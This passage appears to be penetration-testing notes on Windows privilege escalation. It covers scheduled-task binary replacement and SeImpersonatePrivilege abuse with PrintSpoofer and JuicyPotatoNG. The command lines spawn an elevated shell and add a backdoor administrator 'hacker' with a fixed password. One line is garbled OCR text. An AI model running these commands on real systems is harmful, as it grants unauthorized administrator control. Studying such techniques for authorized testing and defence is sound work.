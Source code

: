 ```powershell
Restart-Service GammaService
```

## Scheduled Tasks
---

If a task is executed periodically, we can exploit the called program if we have write permissions on it. To seek for scheduled tasks we can run.

```powershell
schtasks /query /fo LIST /v

ln-ò»[]DP.OSB

schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
```

Eventually we can use `findstr` if we want to search for something specific. After that we can replace the program with a simple .exe that creates a new admin user.

## Windows Services
---

We can watch status of Windows services with [Watch-Command](https://github.com/markwragg/PowerShell-Watch/tree/master)

## Exploits
---

We can use multiple exploits for Windows, depending on the privileges we got on the system. An example could be [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe). We could serve it on the victim machine. If we have `SeImpersonatePrivilege` privilege displayable with `whoami /priv` we could gain Admin privileges with

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

If we have `SeImpersonatePrivilege` we can use also Juicy-Potato to create an admin user (hacker:P@ssw0rd) on the system:
- https://pentest.party/notes/windows/privilege-impersonate
- https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1

There is a wide range of this exploits. We can use the whole [Potato Family](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) and perform a Privilege Escalation. A real-life scenario of a Windows privilege escaltion could be exploiting the [`SeBackupPrivilege`](https://juggernaut-sec.com/sebackupprivilege).

```powershell
.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"

.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "net localgroup administrators user /add"
```
